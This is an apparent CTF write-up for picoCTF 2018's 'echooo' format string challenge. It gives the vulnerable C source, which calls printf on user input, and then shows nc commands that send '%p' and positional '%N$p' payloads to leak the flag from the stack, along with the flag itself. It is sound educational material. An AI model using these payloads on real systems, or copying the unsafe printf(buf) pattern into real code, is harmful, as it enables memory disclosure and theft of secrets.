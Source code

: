 ```yaml
---
layout: writeup
title: 'Binary Exploitation 300: echooo'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_254148ae}
---
```

## Challenge

This program prints any input you give it. Can you
[leak](writeupfiles/leak) the flag? Connect with `nc
2018shell1.picoctf.com 23397`.

[Source](writeupfiles/echo.c)

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    
    int main(int argc, char **argv){
    
      setvbuf(stdout, NULL, _IONBF, 0);
    
      char buf[64];
      char flag[64];
      char *flag_ptr = flag;
    
      // Set the gid to the effective gid
      gid_t gid = getegid();
      setresgid(gid, gid, gid);
    
      memset(buf, 0, sizeof(flag));
      memset(buf, 0, sizeof(buf));
    
      puts("Time to learn about Format Strings!");
      puts("We will evaluate any format string you give us with printf().");
      puts("See if you can get the flag!");
    
      FILE *file = fopen("flag.txt", "r");
      if (file == NULL) {
        printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
        exit(0);
      }
    
      fgets(flag, sizeof(flag), file);
    
      while(1) {
        printf("> ");
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
      }
      return 0;
    }
{: .language-c}

## Solution

printf function is vulnerable to format string attacks. We can pass it a
string lik `%x` or `%p` and read the stack.

since we know that `picoCTF` is `7069636f435446` in hex, we should be
able to spot the flag on the stack, let's try it:

    $ python -c "print('%p'*32)" | nc 2018shell1.picoctf.com 23397
    Time to learn about Format Strings!
    We will evaluate any format string you give us with printf().
    See if you can get the flag!
    > 0x400xf779a5a00x80486470xf77d1a740x10xf77a94900xffc1c8a40xffc1c7ac0x4910x89990080x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6d526f660x735f74340x6e695274

reformatted to make easier to read:

    0x40
    0xf77515a0
    0x8048647
    0xf7788a74
    0x1
    xf7760490
    0xfff4a3c4
    0xfff4a2cc
    0x491
    0x81aa008
    0x70257025   # our own input of %p repeatedly
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0x70257025
    0xa
    0x6f636970  # flag? (little endian)
    0x7b465443
    0x6d526f66
    0x735f7434
    0x6e695274
    ..

The bytes around the flag translate to:

    ocip
    {FTC
    mRof
    s_t4
    niRt

accounting for little endian this gives us:

    picoCTF{foRm4t_stRin

but end is missing? our buffer isnt big enough to show us the whole
flag, so we gotta be smarter about it.

Passing a format string like `%42$p` will return the 42nd item on the
stack

    $ python -c "print(''.join(['%'+str(i)+'\$p' for i in range(27,39)]))" | nc 2018shell1.picoctf.com 23397                    [13-10-18 11:25:04]
    Time to learn about Format Strings!
    We will evaluate any format string you give us with printf().
    See if you can get the flag!
    > 0x6f6369700x7b4654430x6d526f660x735f74340x6e6952740x615f73470x445f65520x65476e610x737530720x3435325f0x613834310xa7d65

or with a bit of extra formatting:

    $ python -c "print(''.join(['%'+str(i)+'\$p' for i in range(27,39)]))" | nc 2018shell1.picoctf.com 23397 |head -n 4 | tail -n 1 | sed 's/0x/\n0x/g' | python ../../_resources/code/l2a.py
    >
    0x6f636970 ocip
    0x7b465443 {FTC
    0x6d526f66 mRof
    0x735f7434 s_t4
    0x6e695274 niRt
    0x615f7347 a_sG
    0x445f6552 D_eR
    0x65476e61 eGna
    0x73753072 su0r
    0x3435325f 452_
    0x61383431 a841
    0xa7d65

the last line tranlslates to `e}` so full flag is:

